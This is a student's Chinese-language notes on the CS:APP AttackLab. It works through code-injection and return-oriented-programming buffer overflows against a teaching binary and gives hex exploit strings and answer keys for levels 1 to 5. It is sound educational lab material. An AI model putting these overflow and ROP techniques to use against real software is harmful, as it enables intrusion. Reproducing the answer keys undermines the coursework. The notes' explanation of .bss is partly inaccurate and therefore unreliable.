 ## AttackLab

* 复习
  * 管道的使用方法
  * 向函数传入参数不是用< ,这个是重定向. 当然如果参数是文件可以这样用

### Level1

非常简单,直接修改函数的返回地址就可以了



### Level 2

* getbuf函数将ret返回到栈区,栈区存储自己的攻击代码
* 将rdi的值设置为cookie
* 因为sub中的立即数未加$导致出错.....
* 两条指令之间不用的内存要用90(nop)填充,不然会内存报错
* x00007ffff7c75150 in __vfprintf_internal (s=0x7ffff7e1a780 <_IO_2_1_stdout_>, format=0x4030e8 "Touch2!: You called touch2(0x%.8x)\n", ap=ap@entry=0x5561dba8, mode_flags=mode_flags@entry=2) at ./这段输出要找为什么(卡住了,为什么会在这里segementaion fault呢?) (仍然不懂为什么)
* 陷入了一个错误的思维误区!!把栈当成"字节数组",想往地址里面填充东西,实际上应该是把他当成一个栈,栈指针以上的东西都是不能再被访问的!不能通过随意减去栈指针来访问内容!
* 所以实际上最后只需要三个指令
* mov 
* push
* ret

/* Level 1 */ 
/* 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00*/
/* Level 2 */
48 c7 c7 fa 97 b9 59 90   /* movq   $0x59b997fa , %rdi  nop*/
48 2b 24 25 20 00 00 c3 /* add 0x20,%rsp */
ec 17 40 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
68 d6 61 55 00 00 00 00 /* 这段应该是栈指针的代码 ，先找出栈指针的位置*/



### Level3

* getbuf函数将内容写在数据区中,而不是写在缓冲区中!!!所以说,缓冲区在栈里面,缓冲区只有暂时中转数据的功能,add rsp指令会把栈顶指针返回到原来的位置.栈顶指针上面的位置可以写入攻击代码

* hexmatch中rdi(我们字符串的地址)没有传递错误,但是在strncmp函数中,rdi中的地址指向的值变化了,因为hexmatch破坏了栈中存储的值
  * 破案了,被hexmatch中的push给重写了我地址里面的内容
  * 同时,mov 0x78(%rsp)是改变0x5561dc78
  * push之前,rsp指向的是0x51661dc98,三个push之后还是会修改原来缓冲区的东西
    * 所以,我想直接把指针指向内存中存储的位置
  
* todo:查看指针放在数据区的哪个位置,然后将rdi存储为这个值

* 0000000000605104 <gets_cnt>:
    605104:	00 00                	add    %al,(%rax) 为什么0000代表的是add ,而且很奇怪的是,我之前array标签不是代表是数组吗,为什么反汇编后还是命令

* .bss 

  * 在汇编语言和编译器中，`.bss` 是一种特殊的段（segment）或区域（section），用于存放未初始化的 *全局变量、静态变量和局部静态变量*等数据。`.bss` 是 "Block Started by Symbol" 的缩写，表示由符号开始的块，它通常位于程序的数据段（`.data`）和堆（heap）之间。

    `.bss` 段中的变量在程序加载时并不会占用实际的空间，而是在程序开始执行时根据需要进行分配。这是因为，未初始化的变量在内存中都被初始化为 0 或者空指针，因此在编译时无需为它们分配实际的空间。当程序需要使用这些变量时，会根据变量的定义动态分配内存，并将其地址存储在变量的符号表中。因此，`.bss` 段中的变量通常具有较大的大小，但实际占用的内存空间很少。

    在汇编语言中，可以使用 `.bss` 标签来声明一个未初始化的变量。例如，下面的代码声明了一个名为 `buf` 的 4096 字节的缓冲区：

    ```
    section .bss
    buf resb 4096
    ```

    这个声明告诉编译器为 `buf` 分配 4096 字节的空间，但不会对其进行初始化。在程序运行时，可以通过 `buf` 符号来访问这个缓冲区。

* getchar函数返回0xFFFFFFFFF(-1),则代表文件读取结束或者发生了读取错误

* 这个Gets函数和gets函数不一样!我们无法看到Gets函数内部的具体实现,但是我们可以知道,Gets函数里面应该是会有一个全局变量的,他会存储缓冲区里面的内容

  * Gets函数里面的save_char函数没看懂

* 我对答案不是很理解,如果是放在test的栈空间里,不是会破坏掉test里面的内容吗?

  * !!我们是黑客呀!test里面的内容已经不影响了,因为我们不会再回到test里面了,我们直接exit出去!!

* 其实只要想明白,attacklab还是很容易的.......

答案代码:

	00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
48 c7 c7 a8 dc 61 55 90 
68 fa 18 40 00 c3 90 90
00 00 00 00 00 00 00 00
88 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61

### Level 4

* 找了一遍,发现没有对应的字节码,只好用别的方法了.提示了可以用pop指令,那可以往栈中注入cookie,利用pop %rdi指令将rdi设置为cookie(没有pop %rdi,那就利用rax进行中转)
* 两条指令就行了! pop %rax movq %rax,%rdi
  * 答案:
  * 00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    cc 19 40 00 00 00 00 00 
    fa 97 b9 59 00 00 00 00
    c5 19 40 00 00 00 00 00
    ec 17 40 00 00 00 00 00



### Level 5

* 也不难,关键是要知道add_xy这个函数的存在,不然真的算不了.....
* String存储的位置不要用负数的偏移量,因为两个负数相加会溢出(都是负数加负数),用正数的偏移量
* 00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00
  06 1a 40 00 00 00 00 00
  c5 19 40 00 00 00 00 00
  cc 19 40 00 00 00 00 00
  48 00 00 00 00 00 00 00
  42 1a 40 00 00 00 00 00
  34 1a 40 00 00 00 00 00
  27 1a 40 00 00 00 00 00
  d6 19 40 00 00 00 00 00
  c5 19 40 00 00 00 00 00
  fa 18 40 00 00 00 00 00
  35 39 62 39 39 37 66 61
